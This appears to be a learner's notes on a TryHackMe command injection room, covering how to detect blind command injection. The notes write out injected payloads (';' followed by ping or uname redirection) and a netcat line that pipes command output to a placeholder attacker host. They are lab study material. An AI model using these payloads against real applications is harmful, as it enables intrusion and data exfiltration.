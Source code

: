 # Room
https://tryhackme.com/room/injection

# Task 1 - Deploy
Deploy VM

# Task 2 - Intro
Command Injection occurs when server side code like PHP that is housed in a web application makes a system call on the hosting machine

# Task 3 - Blind Command Injection
Blind command injection occurs when the system call doesn't return a response

* How to tell if you have blind command injection
  * Ping
    * If you send 10 pings and the response is delayed about 10 seconds there is a good chance you have blind command injection
  * Redirect output
    * Use output redirection to write a file, then try to browse for that file
  * Bypass using netcat
    * ls -la | nc [attacker_ip] [attacker_port]

Examples
```
; ping -c 10 127.0.0.1
; uname -r > k.txt
```